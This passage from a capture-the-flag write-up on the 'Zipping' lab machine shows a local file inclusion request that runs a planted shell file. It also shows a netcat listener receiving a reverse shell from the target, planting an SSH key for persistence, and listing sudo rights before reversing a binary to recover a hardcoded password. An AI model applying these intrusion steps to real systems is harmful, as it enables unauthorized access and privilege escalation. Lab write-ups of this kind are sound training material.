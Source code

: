 I started a netcat listener and accessed the shell file.

```http
GET /shop/index.php?page=/dev/shm/shell HTTP/1.1
```

I was in.

```bash
$ nc -klvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.44] from (UNKNOWN) [10.129.92.94] 39650
bash: cannot set terminal process group (1112): Inappropriate ioctl for device
bash: no job control in this shell
rektsu@zipping:/var/www/html/shop$
```


## Getting root

Once connected to the server, I copied my SSH public key and reconnect with SSH.

```bash
rektsu@zipping:/home/rektsu/.ssh$ echo ssh-rsa AAAAB3... > authorized_keys
<2m8Es= > authorized_keys

rektsu@zipping:/home/rektsu/.ssh$ chmod 600 authorized_keys
chmod 600 authorized_keys
```

I checked if I could run anything with `sudo`.

```bash
rektsu@zipping:~$ sudo -l
Matching Defaults entries for rektsu on zipping:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User rektsu may run the following commands on zipping:
    (ALL) NOPASSWD: /usr/bin/stock

rektsu@zipping:~$ file /usr/bin/stock
/usr/bin/stock: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=aa34d8030176fe286f8011c9d4470714d188ab42, for GNU/Linux 3.2.0, not stripped

rektsu@zipping:~$ sudo /usr/bin/stock
Enter the password: fdssjk
Invalid password, please try again.
```

I was able to run a binary. I tried it, it needed a password. I downloaded the file to my machine and opened it with Ghidra. I renamed a few variables to make it more readable. The `checkAuth` function had the password in clear.

![Check Auth Function](/assets/images/2023/10/Zipping/checkAuth.png "Check Auth Function")
